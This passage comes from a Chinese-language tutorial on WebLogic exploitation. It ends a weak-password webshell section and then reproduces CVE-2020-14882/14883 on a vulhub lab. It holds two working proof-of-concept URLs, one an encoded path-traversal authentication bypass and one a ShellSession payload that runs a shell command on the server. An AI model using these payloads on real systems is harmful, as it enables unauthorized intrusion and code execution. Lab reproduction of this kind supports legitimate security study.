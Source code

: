 image-20210814214222692

输入密码，即可成功拿到 webshell

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpA3ibWLjQRRncc1kLkIypiaDMmeqbW77PiaDWeWXln9xPDLweWgXc0ialhI5KEibdVxVqmPciaoX16WZuw/640?wx_fmt=png)image-20210814214304327

#### 安全防护

避免出现弱口令

#### 9.Weblogic Console HTTP 协议远程代码执行漏洞 (CVE-2020-14882/CVE-2020-14883)

##### 漏洞简介

未经身份验证的远程攻击者可能通过构造特殊的 HTTP GET 请求，利用该漏洞在受影响的 WebLogic Server 上执行任意代码。它们均存在于 WebLogic 的 Console 控制台组件中。此组件为 WebLogic 全版本默认自带组件，且该漏洞通过 HTTP 协议进行利用。将 CVE-2020-14882 和 CVE-2020-14883 进行组合利用后，远程且未经授权的攻击者可以直接在服务端执行任意代码，获取系统权限。

##### 影响版本

```
10.3.6.0
12.1.3.0
12.2.1.3
12.2.1.4
14.1.1.0
```

##### 漏洞复现

CVE-2020-14883: 权限绕过漏洞的 poc：

```
http://192.168.0.105:7001/console/images/%252E%252E%252Fconsole.portal?_nfpb=true&_pageLabel=AppDeploymentsControlPage&handle=com.bea.console.handles.JMXHandle%28%22com.bea%3AName%3Dbase_domain%2CType%3DDomain%22%29
```

访问该 url 之后，进入如下页面，可以看见成功进入管理台：

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpA3ibWLjQRRncc1kLkIypiaDCUib7D6ib0vCRhxwb9yVImib8CqnZCl20FNe52Ymghic8ib2I96Og0icXp4w/640?wx_fmt=png)image-20210814220636352

CVE-2020-14882: 代码执行漏洞的 poc：

```
http://192.168.0.106:7001/console/images/%252E%252E%252Fconsole.portal?_nfpb=true&_pageLabel=HomePage1&handle=com.tangosol.coherence.mvel2.sh.ShellSession(%22java.lang.Runtime.getRuntime().exec(%27touch /tmp/zcc123%27);%22);
```

这里复现用的 vulhub 靶场

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpA3ibWLjQRRncc1kLkIypiaD12d5zdH2REtiaOGnnoowIicES5udCeO12QHk4P2ovnw6PTmLiagaOIcRA/640?wx_fmt=png)image-20210814222333621

访问报 404，不要慌，此时去容器中看会发现文件已成功写入；

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpA3ibWLjQRRncc1kLkIypiaDXusXic2r4qy1uRnDMWybPnxt8ricWgD7cCnL80EuYeqiaECJKviaba1Wfw/640?wx_fmt=png)image-20210814221311713![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpA3ibWLjQRRncc1kLkIypiaD9pnbywPiaFcHYuqKoAdLCiaQZA41kV1Xq1lJ1V0AZJ6QibhGFf5yemCCg/640?wx_fmt=png)
